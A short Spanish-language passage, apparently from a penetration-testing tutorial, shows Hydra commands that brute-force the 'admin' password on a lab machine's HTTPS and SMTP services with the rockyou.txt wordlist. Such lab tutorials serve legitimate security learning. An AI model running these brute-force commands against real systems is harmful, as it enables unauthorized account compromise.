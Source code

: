 ```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt https-get://192.168.1.199
```
En este caso, estamos intentando acceder al servicio HTTPS de la máquina vulnerable utilizando el usuario `admin` y el diccionario `rockyou.txt`.

Si queremos realizar un ataque de fuerza bruta a un servicio SMTP, podemos usar el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] smtp://[IP de la máquina vulnerable]
```
Por ejemplo, si queremos atacar un servidor SMTP, podemos usar el siguiente comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt smtp://192.168.1.199
```
